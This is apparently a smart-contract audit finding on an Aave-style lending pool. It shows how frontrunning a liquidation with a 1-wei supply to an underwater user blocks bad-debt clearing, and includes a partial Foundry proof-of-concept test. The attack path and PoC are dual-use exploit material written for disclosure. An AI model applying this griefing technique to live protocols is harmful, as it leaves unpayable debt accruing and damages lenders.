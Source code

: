 ```solidity
    if (isFirstSupply) {
      if (
@>      ValidationLogic.validateAutomaticUseAsCollateral(
          reservesData,
          reservesList,
          userConfig,
          reserveCache.reserveConfiguration,
          reserveCache.aTokenAddress
        )
      ) {
@>      userConfig.setUsingAsCollateral(reserve.id, true);
        emit ReserveUsedAsCollateralEnabled(params.asset, params.onBehalfOf);
      }
    }

    emit Supply(params.asset, msg.sender, params.onBehalfOf, params.amount, params.referralCode);
  }
```

### Internal pre-conditions

1. A user has a low health factor, and may face full liquidation to generate bad debt.

### External pre-conditions

None required.

### Attack Path

1. Attackers can frontrun bad debt liquidation by transferring/supplying 1 wei USDC to the user, and prevent bad debt handling logic.
2. Attackers can prepare 1 wei of all existing reserves and transfer/supply to the user. No one would be incentivized to liquidate a collateral with only 1 wei.

### Impact

Bad debt handling logic would not be triggered, and these bad debt would keep on accruing interest.

### PoC

Add the following code to `Pool.Liquidations.t.sol`. What it does is the following:

1. Alice creates a position of collateral=0.5e8 WBTC, debt=11000e6 USDX. Initially, WBTC price = 27000e8, USDX price = 1e8.
2. WBTC price drops 40% to 16200e8, and the position can be liquidated.
3. Attacker frontruns liquidation and supplies 1 wei USDX to user.
4. Fully liquidate position with collateralToken=WBTC, debtToken=USDX. However, due to the 1 wei USDX on step 3, bad debt logic is not triggered.
5. User now has 1 wei USDX as collateral. No one would be incentivized to liquidate such position.


```solidity
  function test_poc_deposit_dust_dos_bad_debt_clearing() public {
    uint256 borrowAmount = 11000e6;

    // Step 1: Collateral = 0.5e8 WBTC, Debt = 11000e6 USDX
    vm.startPrank(alice);
    contracts.poolProxy.supply(tokenList.wbtc, 0.5e8, alice, 0);
    contracts.poolProxy.setUserUseReserveAsCollateral(tokenList.wbtc, true);
    contracts.poolProxy.borrow(tokenList.usdx, borrowAmount, 2, 0, alice);
    vm.stopPrank();

    console.log("> Initial price:");
    console.log("wbtc price =", IAaveOracle(report.aaveOracle).getAssetPrice(tokenList.wbtc));
    console.log("usdx price =", IAaveOracle(report.aaveOracle).getAssetPrice(tokenList.usdx));
```